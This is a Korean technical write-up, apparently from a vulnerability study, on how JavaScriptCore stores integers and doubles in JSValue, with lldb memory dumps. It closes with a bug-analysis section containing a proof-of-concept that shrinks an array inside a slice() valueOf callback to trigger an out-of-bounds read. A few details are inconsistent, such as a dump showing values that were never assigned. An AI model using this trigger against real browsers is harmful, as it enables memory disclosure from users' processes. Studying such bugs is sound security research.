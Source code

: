  독특한 부분은 Double형으로 00001~FFFE까지 라는 것이다.  JSValue에서는 Double형의 상위 16비트 값이 0000~FFFF값이 나오지 않기 위해서 Double형의 값에다가 2^48을 더해준다.
 디버깅을 하면 쉽게 알아볼수 있다.

 예를 들면
 ```javascript
var Integer = 0x7;
var Double = 1.123;
 ```

 이런코드가 있을경우 0x7은 메모리에 0xffff000000000007 이렇게 저장이 되고
 Double의 1.123은 실제 double 값의 0x3ff1f7ced916872b에서 2^48을 더한 0x3ff2f7ced916872b이 된다.

 ```
 (lldb) x/10gx 0x1073b3120
0x1073b3120: 0x0100180000000069 0x0000000000000000
0x1073b3130: 0x00000001015cffd0 [0xffff000000000007] <= Integer

(lldb) x/10gx 0x1073b3100
0x1073b3100: 0x0100180000000069 0x0000000000000000
0x1073b3110: 0x00000001015cffd0 [0x3ff2f7ced916872b] <= Double
 ```

 독특한 점은 배열에 값을 넣을때는 속도를 위해서 네이티브 타입을 저장한다. 번역 문서에서는

 > ArrayWithContiguous 는 JSValue 를 저장하고, 이전 두 타입(Int32Shape, DoubleShape)은 네이티브 타입을 저장한다.
 라고 설명한다.

 ```javascript
 var arrayInt32 = new Uint32Array(2);
arrayInt32[0] = 1;
arrayInt32[1] = 2;
var arrayDouble = [0.123 , 1.123 , 2.123];
print(arrayInt32);
print(arrayDouble);
 ```

 ```
 (lldb) x/10gx 0x00000001061e4800 // arrayInt32
0x1061e4800: 0x0000000200000001 0x0000000400000003
...
(lldb) x/10gx 0x00000001061e4810 // arrayDouble
0x1061e4810: 0x3fbf7ced916872b0 0x3ff1f7ced916872b
0x1061e4820: 0x4000fbe76c8b4396 0x7ff8000000000000
 ```

 실제 디버깅을 해보면 Int32는 1, 2, 3, 4 메모리에 들어가는 것을 확인 할 수 있고 double 배열에는 2^48을 안더한다는 것을 볼 수 있다.
 Int32 배열말고 단일 변수는 없기 때문에 비교할수 없다.


## 3.2 버그 분석

```javascript
    var a = [];
    for (var i = 0; i < 100; i++)
        a.push(i + 0.123);

    var b = a.slice(0, {valueOf: function() { a.length = 0; return 10; }});
    print(b);
```


[^1]: OBJECT_OFFSETOF는 offsetof를 구현한것으로 추정됨. https://devr.tistory.com/51  참조
[^2]: https://github.com/WebKit/webkit/blob/master/Source/JavaScriptCore/runtime/JSCJSValue.h